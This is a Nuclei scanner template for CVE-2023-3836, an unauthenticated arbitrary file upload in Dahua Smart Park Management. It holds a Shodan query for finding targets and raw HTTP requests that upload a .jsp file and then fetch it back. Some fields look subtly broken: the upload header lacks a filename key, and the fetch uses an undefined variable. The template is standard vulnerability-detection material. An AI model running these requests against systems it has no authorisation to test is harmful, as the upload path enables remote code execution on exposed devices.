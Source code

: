 ```
id: CVE-2023-3836

info:
  name: Dahua Smart Park Management - Arbitrary File Upload
  author: HuTa0
  severity: critical
  description: |
    Dahua wisdom park integrated management platform is a comprehensive management platform, a park operations,resource allocation, and intelligence services,and other functions, including/emap/devicePoint_addImgIco?.
  remediation: |
    Apply the latest security patch or update provided by the vendor to fix the arbitrary file upload vulnerability.
  reference:
    - https://github.com/qiuhuihk/cve/blob/main/upload.md
    - https://nvd.nist.gov/vuln/detail/CVE-2023-3836
    - https://vuldb.com/?ctiid.235162
    - https://vuldb.com/?id.235162
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2023-3836
    cwe-id: CWE-434
    epss-score: 0.04304
    epss-percentile: 0.91215
    cpe: cpe:2.3:a:dahuasecurity:smart_parking_management:*:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 2
    vendor: dahuasecurity
    product: smart_parking_management
    shodan-query: html:"/WPMS/asset"
    zoomeye-query: /WPMS/asset
  tags: cve,cve2023,dahua,fileupload,intrusive,rce
variables:
  random_str: "{{rand_base(6)}}"
  match_str: "{{md5(random_str)}}"

http:
  - raw:
      - |
        POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
        Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
        Host: {{Hostname}}

        --A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
        Content-Disposition: form-data; {{random_str}}.jsp"
        Content-Type: application/octet-stream
        Content-Transfer-Encoding: binary

        {{match_str}}
        --A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
      - |
        GET /upload/emap/society_new/{{shell_filename}} HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 && status_code_2 == 200"
          - "contains(body_2, '{{match_str}}')"
        condition: and

```